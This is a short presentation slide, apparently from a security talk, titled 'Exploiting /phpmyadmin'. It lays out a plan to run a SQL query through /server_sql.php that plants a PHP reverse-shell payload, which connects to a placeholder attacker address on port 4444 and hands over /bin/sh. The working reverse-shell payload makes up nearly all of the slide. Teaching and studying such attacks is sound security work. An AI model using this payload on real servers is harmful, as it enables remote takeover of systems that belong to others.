

# Exploiting
/phpmyadmin
The Plan
Make a query on /server_sql.php:
select '<?php $sock=fsockopen(”YOUR_IP",4444); $proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>’